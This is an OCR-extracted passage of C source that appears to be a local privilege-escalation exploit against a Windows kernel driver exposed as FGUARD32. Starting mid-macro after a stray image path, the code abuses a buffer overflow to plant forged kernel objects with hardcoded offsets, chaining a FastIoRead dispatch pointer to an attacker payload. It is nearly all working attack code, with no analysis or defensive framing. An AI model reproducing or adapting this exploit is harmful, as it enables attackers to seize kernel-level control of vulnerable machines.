     printf("DropFile failed\n"); \
    goto Exit; \
} \
}
    BOOL   r;
    PVOID  *p;
    int    OldPriority;
    HANDLE hObject;
    HANDLE hDevice;
    PVOID  pPayload;
    PVOID  pFastIo;
    PVOID  pDrvObj;
    PVOID  pDevObj;
    PVOID  pFileObj;

    hDevice = CreateFileA("\\\\.\\FGUARD32", GENERIC_READ | GENERIC_WRITE, 7, 0, OPEN_EXISTING, 0, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("CreateFileA failed: %d", GetLastError());
        goto Exit;
    }

    OldPriority = GetThreadPriority(GetCurrentThread());
    SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_HIGHEST);

    DROP_FILE_WITH_CHECK(Payload);
    r = Overflow(hDevice, &pPayload, &hObject);
    printf("Payload: %p\n", pPayload);
    CHECK_NULL_EXIT(pPayload);
    DeleteFiles();

    //offset nt!_FAST_IO_DISPATCH::FastIoRead
    p = (PVOID *)&FastIo[0x2F4 + 0x8];
    *p = pPayload;
    DROP_FILE_WITH_CHECK(FastIo);
    Overflow(hDevice, &pFastIo, &hObject);
    printf("FastIo: %p\n", pFastIo);
    CHECK_NULL_EXIT(pFastIo);
    DeleteFiles();

    //offset nt!_DRIVER_OBJECT::FastIoDispatch
    p = (PVOID *)&DrvObj[0x2F4 + 0x28];
    *p = pFastIo;
    DROP_FILE_WITH_CHECK(DrvObj);
    r = Overflow(hDevice, &pDrvObj, &hObject);
    printf("DrvObj: %p\n", pDrvObj);
    CHECK_NULL_EXIT(pDrvObj);
    DeleteFiles();

    //offset nt!_DEVICE_OBJECT::DriverObject
    p = (PVOID *)&DevObj[0x2F4 + 0x8];
    *p = pDrvObj;
    DROP_FILE_WITH_CHECK(DevObj);
    r = Overflow(hDevice, &pDevObj, &hObject);
    printf("DevObj: %p\n", pDevObj);
    CHECK_NULL_EXIT(pDevObj);
    DeleteFiles();

    //offset nt!_FILE_OBJECT::DeviceObject
    p = (PVOID *)&FileObj[0x2F4 + 0x4];
    *p = pDevObj;
    DROP_FILE_WITH_CHECK(FileObj);
    r = Overflow(hDevice, &pFileObj, &hObject);
    printf("FileObj: %p\n", pFileObj);
    CHECK_NULL_EXIT(pFileObj);
    DeleteFiles();
